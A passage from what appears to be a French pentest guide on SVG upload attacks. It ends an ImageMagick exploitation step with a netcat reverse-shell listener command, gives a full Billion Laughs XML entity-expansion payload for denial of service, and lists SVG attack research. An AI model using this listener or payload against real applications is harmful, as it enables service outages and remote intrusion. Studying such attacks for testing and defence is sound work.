    ```shell
   nc -lnvp 1234
   ```

4. Téléverser ce fichier sur l'application. 
   Au moment du téléversement, ImageMagick va traiter l'image, et exécuter en le code.

## Denial of Service : Billion Laughs

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le Billion Laughs, qui vise le parser des documents en XML, est applicable au fichier SVG : 

```svg
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE svg [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<svg>
    <lolz>&lol9;</lolz>
</svg>
```

## References

- Anatomy of Scalable Vector Graphics (SVG) Attack Surface on the Web : https://www.fortinet.com/blog/threat-research/scalable-vector-graphics-attack-surface-anatomy

- SVG - Exploiting Browsers without Image Parsing Bugs : https://www.blackhat.com/docs/us-14/materials/us-14-DeGraaf-SVG-Exploiting-Browsers-Without-Image-Parsing-Bugs.pdf

- XSS
  
  - Scalable Vector Graphics and XSS - Grepular : https://www.grepular.com/Scalable_Vector_Graphics_and_XSS
  
  - Do you allow to load SVG files? You have XSS! : https://research.securitum.com/do-you-allow-to-load-svg-files-you-have-xss/
  
  - The Image that called me (Active Content Injection with SVG Files) : https://owasp.org/www-pdf-archive/Mario_Heiderich_OWASP_Sweden_The_image_that_called_me.pdf
  